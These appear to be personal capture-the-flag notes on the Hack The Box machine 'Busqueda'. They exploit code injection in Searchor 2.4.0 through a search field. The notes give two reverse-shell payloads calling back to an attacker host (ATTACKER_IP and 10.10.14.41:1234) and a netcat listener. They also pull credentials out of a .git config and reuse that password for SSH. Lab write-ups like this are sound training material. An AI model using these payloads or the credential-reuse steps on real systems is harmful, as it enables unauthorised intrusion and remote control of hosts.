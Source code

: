- input field
- powered by searchor 2.4.0

### script kidde method

- [poc of searchor 2.4.0 on google](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-)
    - `', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#`

    - searching the above prompt will get u a revese shell and can grab user.txt.

- `la -al` -> .git folder.
- .git/config reveals a url `http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git`
    - we have creds `cody:jh1usoih2bkjaspwe92`
    - we got a domain name `gitea.searcher.htb`

- password for svc user is same as that of cody.
- `sudo -l` reveals

### Playing with input field (alternative method) 
- SSTI
- payload: 
```python
,),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.41/1234 0>&1"')#
```

- `nc -lnvp 1234`

- get reverse shell on target machine. `cat ~/user.txt` gives user flag.

<hr>

## Privesc enumeration

- `ls -al` -> gind .git -> `cd .git` -> `ls` -> config file -> `cat config`
url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git

- May be ssh id ?? cody:jh1usoih2bkjaspwe92
- new domain: gitea.searcher.htb. Let's add it as well to /etc/hosts and check the web.
  ![new website at gitea.searcher.htb](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/busqueda/new_website.png)

- let's login with the above credentials for cody.
![logged in as cody](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/busqueda/loggedin_cody.png)

- nothing much interesting in website for this user.(another use `administrator` is also present but we don't have access to it right now.)
  
<hr>
Let's check for ssh.

- target 1 : ssh login -> cody:jh1usoih2bkjaspwe92 ==> permission denied
- target 2 : ssh login -> svc:jh1usoih2bkjaspwe92  ==> logged in
    - thus creds for svc is svc:jh1usoih2bkjaspwe92
